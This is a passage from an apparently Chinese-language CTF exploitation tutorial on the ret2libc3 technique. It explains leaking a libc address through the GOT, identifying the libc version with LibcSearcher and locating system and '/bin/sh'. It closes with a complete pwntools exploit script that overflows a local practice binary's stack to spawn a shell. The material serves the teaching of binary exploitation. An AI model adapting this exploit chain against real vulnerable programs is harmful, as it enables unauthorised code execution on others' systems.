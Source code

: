 那么我们如何得到system函数的地址呢？这里就主要利用了两个知识点

- system函数属于libc，而libc.so文件中的函数之间相对偏移是固定的。
- 即使程序有ASLR保护，也只是针对于地址中间位进行随机，最低的12位并不会发生改变。而libc在github上有人进行收集，具体细节如下
  - https://github.com/niklasb/libc-database

所以如果我们知道libc中某个函数的地址，那么我们就可以确定该程序利用的libc。进而我们就可以知道system函数的地址。

那么如何得到libc中的某个函数的地址呢？我们一般常用的方法是采用got表泄露，即输出某个函数对应的got表项的内容。**当然，由于libc的延迟绑定机制，我们需要选择已经执行过的函数来进行泄露。**

我们自然可以根据上面的步骤先得到libc，之后在程序中查询偏移，然后再次获取system地址，但这样手工操作次数太多，有点麻烦，这里给出一个libc的利用工具，具体细节请参考readme

- https://github.com/lieanu/LibcSearcher

此外，在得到libc之后，其实libc中也是有/bin/sh字符串的，所以我们可以一起获得/bin/sh字符串的地址。

这里我们泄露__libc_start_main的地址，这是因为它是程序最初被执行的地方。基本利用思路如下

- 泄露__libc_start_main地址
- 获取libc版本
- 获取system地址与/bin/sh的地址
- 再次执行源程序
- 触发栈溢出执行system(‘/bin/sh’)

exp如下

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```
